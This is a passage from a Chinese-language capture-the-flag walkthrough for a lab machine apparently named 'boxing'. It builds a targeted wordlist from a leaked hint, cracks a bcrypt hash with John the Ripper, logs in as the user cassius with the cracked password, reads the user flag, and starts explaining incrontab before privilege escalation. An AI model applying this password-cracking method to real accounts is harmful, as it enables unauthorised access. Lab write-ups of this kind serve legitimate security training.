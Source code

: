 绿师傅给出了一点提示：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302350.png" alt="img"  />

>  实际上这个工具搞出来的字典还不足以解决本题的问题，除非特意构造

看来是定制字典了，尝试使用[工具](https://github.com/Mebus/cupp.git)生成一个专用字典：

> 结合之前的线索：
>
> feedback=Hello! You don't have a link to reset the password, and I've forgotten it! I tried Cassius! but it doesn't work; Contact me asap pease!  Cassius

我直接使用[在线网站](https://www.ddosi.org/pass8/)生成了，解密一下：

```bash
john hash.txt --wordlist=temp.txt --format=bcrypt
```

```css
┌──(root㉿kali)-[/home/kali/temp/boxing]
└─# john hash.txt --wordlist=temp.txt --format=bcrypt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Cassius!123      (?)     
1g 0:00:00:00 DONE (2024-04-03 13:18) 5.263g/s 852.6p/s 852.6c/s 852.6C/s Cassius123..Cassius!123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### 切换cassius用户

```apl
su cassius
Cassius!123
```

#### 信息搜集

```bash
cassius@boxing:~$ ls
user.txt
cassius@boxing:~$ cat user.txt 
a2b3946358a96bb7a92f61a759a1d972
```

### 提权至root

这就要用到之前的那两个脚本了提权了：

> **incrontab是一个用于监控文件或目录变化的工具**，它允许用户为文件或目录的特定事件（如IN_CREATE、IN_DELETE、IN_MODIFY等）指定要执行的命令。当这些事件发生时，系统会自动执行相应的命令。
>
> 具体来说，incrontab文件（通常位于/etc/incron.d/目录下）用于定义监控规则，每个规则包括要监控的文件或目录、要监控的事件以及当事件发生时要执行的命令。当文件或目录的状态发生变化时，incron守护进程会检查incrontab文件，并根据定义的规则执行相应的命令。

